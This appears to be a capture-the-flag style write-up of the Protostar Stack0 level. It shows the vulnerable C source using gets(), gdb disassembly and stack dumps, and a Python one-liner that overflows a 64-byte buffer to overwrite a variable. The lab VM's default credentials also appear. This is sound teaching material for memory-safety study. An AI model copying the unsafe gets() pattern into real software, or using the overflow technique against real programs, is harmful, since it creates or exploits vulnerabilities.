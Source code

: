 # Protostar - Stack0
* Getting started
    
    Once the virtual machine has booted, you are able to log in as the “user” account with the password “user” (without the quotes).
    The levels to be exploited can be found in the /opt/protostar/bin directory.
    For debugging the final levels, you can log in as root with password “godmode” (without the quotes)


* Core Files

    README! The /proc/sys/kernel/core_pattern is set to /tmp/core.%s.%e.%p. This means that instead of the general ./core file you get, it will be in a different directory and different file name.


## __Stack0__
* About
    This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

    This level is at /opt/protostar/bin/stack0

* Source Code 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}

```


  Let's check for the assembly of the program
```
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   %ebp
0x080483f5 <main+1>:    mov    %esp,%ebp
0x080483f7 <main+3>:    and    $0xfffffff0,%esp
0x080483fa <main+6>:    sub    $0x60,%esp
0x080483fd <main+9>:    movl   $0x0,0x5c(%esp)
0x08048405 <main+17>:   lea    0x1c(%esp),%eax
0x08048409 <main+21>:   mov    %eax,(%esp)
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    0x5c(%esp),%eax
0x08048415 <main+33>:   test   %eax,%eax
0x08048417 <main+35>:   je     0x8048427 <main+51>    << Break here 
0x08048419 <main+37>:   movl   $0x8048500,(%esp)
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   movl   $0x8048529,(%esp)
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave  
0x08048434 <main+64>:   ret    
End of assembler dump.
```

Let's set a breakpoint at 0x08048417 to see what stack look like if we input some "A"
```
(gdb) b *0x08048417
Breakpoint 1 at 0x8048417: file stack0/stack0.c, line 13.
(gdb) run 
Starting program: /opt/protostar/bin/stack0 
AAAAAAAA

Breakpoint 1, 0x08048417 in main (argc=1, argv=0xbffff874) at stack0/stack0.c:13
13      stack0/stack0.c: No such file or directory.
        in stack0/stack0.c
(gdb) x/50xw $esp
0xbffff760:     0xbffff77c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff770:     0xb7fd7ff4      0xb7ec6165      0xbffff788      0x41414141
0xbffff780:     0x41414141      0x08049600      0xbffff798      0x080482e8
0xbffff790:     0xb7ff1040      0x08049620      0xbffff7c8      0x08048469
0xbffff7a0:     0xb7fd8304      0xb7fd7ff4      0x08048450      0xbffff7c8
0xbffff7b0:     0xb7ec6365      0xb7ff1040      0x0804845b      0x00000000
0xbffff7c0:     0x08048450      0x00000000      0xbffff848      0xb7eadc76
0xbffff7d0:     0x00000001      0xbffff874      0xbffff87c      0xb7fe1848
0xbffff7e0:     0xbffff830      0xffffffff      0xb7ffeff4      0x0804824b
0xbffff7f0:     0x00000001      0xbffff830      0xb7ff0626      0xb7fffab0
0xbffff800:     0xb7fe1b28      0xb7fd7ff4      0x00000000      0x00000000
0xbffff810:     0xbffff848      0xcfb222d8      0xe5e5f4c8      0x00000000
0xbffff820:     0x00000000      0x00000000
```

I just added 8 of "A" and then in the stack the "A" has been stored at 0xbffff77c. The "modified" variable has been stored at 0xbffff7bc. These two location has an address difference for 64 bytes so we have to put "A" for 64 bytes to full the buffer and put another character to overide "modified" variable. 
```
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack0 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1

Breakpoint 1, 0x08048417 in main (argc=1, argv=0xbffff874) at stack0/stack0.c:13
13      in stack0/stack0.c
(gdb) x/50xw $esp
0xbffff760:     0xbffff77c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff770:     0xb7fd7ff4      0xb7ec6165      0xbffff788      0x41414141
0xbffff780:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff790:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7b0:     0x41414141      0x41414141      0x41414141      0x00000031
0xbffff7c0:     0x08048450      0x00000000      0xbffff848      0xb7eadc76
0xbffff7d0:     0x00000001      0xbffff874      0xbffff87c      0xb7fe1848
0xbffff7e0:     0xbffff830      0xffffffff      0xb7ffeff4      0x0804824b
0xbffff7f0:     0x00000001      0xbffff830      0xb7ff0626      0xb7fffab0
0xbffff800:     0xb7fe1b28      0xb7fd7ff4      0x00000000      0x00000000
0xbffff810:     0xbffff848      0x2dfde3cb      0x07aa35db      0x00000000
0xbffff820:     0x00000000      0x00000000
```

Now the value stored at 0xbffff7bc has been overflow so we could get the result now.
```
(gdb) c
Continuing.
you have changed the 'modified' variable
```



### _Solution_
```
user@protostar:~$ python -c 'print("A"*64 + "1")' | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```